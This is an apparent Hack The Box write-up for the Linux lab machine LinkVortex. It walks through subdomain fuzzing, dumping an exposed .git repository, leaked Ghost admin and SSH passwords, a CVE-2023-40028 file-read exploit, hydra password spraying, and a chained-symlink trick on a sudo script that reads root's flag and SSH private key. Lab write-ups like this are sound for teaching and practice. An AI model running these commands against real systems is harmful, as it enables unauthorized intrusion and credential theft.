



# LinkVortex

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">.git exposure</span>
<span class="wu-tag">Ghost file read</span>
<span class="wu-tag">Symlink abuse</span>
<span class="wu-tag">sudo script</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    LinkVortex is built around symbolic links from foothold to root. An exposed `.git` directory on a dev subdomain leaks the Ghost CMS admin password, and that version of Ghost is vulnerable to CVE-2023-40028 — an authenticated arbitrary file read through symlinked uploads. Reading Ghost's configuration surfaces SSH credentials, and root comes from a sudo-run cleanup script whose symlink handling can be tricked into printing any root-owned file.

## Attack path

1. Fuzz subdomains to find `dev.linkvortex.htb`, dump its exposed `.git` repo, and recover the Ghost admin password.
2. Use the leaked Ghost config (and CVE-2023-40028's file read) to obtain `bob`'s SSH credentials.
3. Abuse the sudo-run `clean_symlink.sh` with a chained symlink to read root-owned files (the root flag or root's SSH key).

**Tools:** nmap, ffuf, feroxbuster, wfuzz, git-dumper, hydra, ssh.

## Enumeration

Set the target and scan:

```bash
IP=10.10.11.47

ports=$(nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports
sudo nmap -p$ports -sC -sV $IP -oA scan_tcp
```

### Nmap results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
```

Port 80 redirects to `linkvortex.htb`, so add it to `/etc/hosts`. The site runs **Ghost 5.58**, which is vulnerable to [CVE-2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) — an authenticated arbitrary file read. That needs credentials, so hold it and keep enumerating.

## Foothold

Directory fuzzing on the main host only surfaces `robots.txt` and `sitemap.xml` (dead ends), so pivot to virtual hosts:

```bash
ffuf -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/Web-Content/big.txt --fc 301
```

That finds `dev`. Add `dev.linkvortex.htb` to `/etc/hosts` and fuzz it — feroxbuster turns up an exposed `.git` directory:

```bash
feroxbuster -u http://dev.linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/big.txt
git-dumper http://dev.linkvortex.htb/.git ./dev-repo
```

!!! tip
    Dumping a Git repo onto a network share is painfully slow. Clone it into a local `/tmp` directory instead.

Grepping the recovered source turns up the Ghost admin password, and a config file leaks a second set of mail/SSH credentials:

```
admin@linkvortex.htb : OctopiFociPilfer45
bob@linkvortex.htb   : fibber-talented-worth
```

<figure class="wu-evidence" markdown>

<figcaption>Searching the dumped Git history reveals the Ghost administrator password in the recovered source.</figcaption>
</figure>

<figure class="wu-evidence" markdown>

<figcaption>The container build file identifies the exact production configuration path worth reading through the Ghost file-read primitive.</figcaption>
</figure>

With the admin password, the Ghost file-read PoC now works and confirms arbitrary read as the web user:

```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb/
# read /etc/passwd -> node, plus service accounts
```

The leaked `bob` password is reused for SSH. Spray the recovered users and passwords to confirm and log in:

```bash
hydra -L users.txt -P passwords.txt ssh://linkvortex.htb
ssh bob@linkvortex.htb   # bob : fibber-talented-worth
```

## Privilege escalation

`sudo -l` shows `bob` can run a Ghost cleanup script as root, with the environment preserved:

```
User bob may run the following commands on linkvortex:
    (ALL) SETENV: NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh
```

<figure class="wu-evidence" markdown>

<figcaption>The sudo rule and script source show the full privilege boundary: a root-run cleanup routine that trusts a user-controlled symlink chain.</figcaption>
</figure>

The script only accepts `.png` files, quarantines any symlink it is handed, and — when `CHECK_CONTENT=true` — prints the link's target. Crucially, its safety check reads only **one** level of the link (rejecting targets under `/root` or `/etc`), while the final `cat` follows the whole chain. Chain two symlinks so the check sees a harmless path but `cat` resolves through to a root-owned file:

```bash
ln -s /root/root.txt /home/bob/uwu.txt
ln -s /home/bob/uwu.txt /home/bob/uwu.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/uwu.png
```

The script prints `root.txt`. Repoint the chain at `/root/.ssh/id_rsa` to read root's private key and turn the file-read into a full shell:

```bash
ln -s /root/.ssh/id_rsa /home/bob/uwu.txt
ln -s /home/bob/uwu.txt /home/bob/uwu.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/uwu.png
# save the key locally, chmod 600, then:
ssh -i id_rsa root@linkvortex.htb
```
